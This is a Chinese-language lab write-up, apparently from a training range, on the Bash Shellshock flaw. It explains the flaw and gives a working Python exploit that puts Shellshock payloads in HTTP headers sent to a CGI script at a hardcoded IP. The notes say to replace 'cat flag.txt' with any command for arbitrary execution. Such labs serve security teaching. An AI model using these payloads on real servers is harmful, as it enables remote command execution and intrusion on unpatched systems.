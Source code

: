 # bash 破壳漏洞

##【实验原理】

​	Bash使用的环境变量是通过函数名称来调用的，导致漏洞出问题是以“(){”开头定义的环境变量在命令ENV中解析成函数后，Bash执行并未退出，而是继续解析并执行shell命令。导致出现命令执行，而其核心的原因在于在输入的过滤中没有严格限制边界，也没有做出合法化的参数判断。

##【实验目的】

提高学员对bash命令的理解以及对bash的原理进行一定的认识。

##【实验环境】

![](文档/1.png)

* 靶机：Ubuntu14.04 64位操作系统。
* IP地址：随机分配，已绑定端口80
* 客户机：kali  IP地址：随机分配

##【实验工具】

Python，浏览器访问，漏洞POC进行命令执行

##【实验步骤】

**步骤1：**访问平台生成的url，对bash破壳漏洞进行一个初步的了解。

![](文档/2.png)

**步骤2：**点击靶场环境按钮，进入一个cgi页面

![](文档/3.png)

![](文档/4.png)



**步骤3：**通过对bash破壳漏洞的进一步了解，从而进行构造攻击payload对靶场页面URL进行远程命令执行

编写exp：

```python
#coding=utf-8
import urllib, urllib2
import cookielib, socket
import cgi, re, os


def get_request(url):
    socket.setdefaulttimeout(5)
    i_headers = {"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
                 "User-Agent": "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.125 Safari/537.36",
                 "CustomHeader": "() { test;};echo; echo shellshock one;",
                 "CustomHeaderNew": "() { _;} >shellshockme[$($())] { cat flag.txt;}",
                 }

    try:
        req = urllib2.Request(url, headers=i_headers)
        response = urllib2.urlopen(req)
        print response.info()
        html = response.read()
        print html
    except:
        print "Error on request"

if __name__ == '__main__':
    url = "http://218.2.197.232:25294/cgi-bin/test.sh"
    get_request(url)

```

**注：**

1. 将exp中的url替换成自己靶机的url即可
2. exp中的`i_headers`字段将`{ cat flag.txt;}`命令替换成你需要的指令即可完成任意命令执行

**步骤4：**通过对服务器进行命令执行操作，找出含有flag的页面，flag.txt

**步骤4：**执行命令查看或下载该文件，找出文件中的flag

执行结果：

![](文档/result.png)

##**【实验总结】**

本次实验主要是模拟真实环境中bash破壳漏洞命令执行操作，提取有效信息。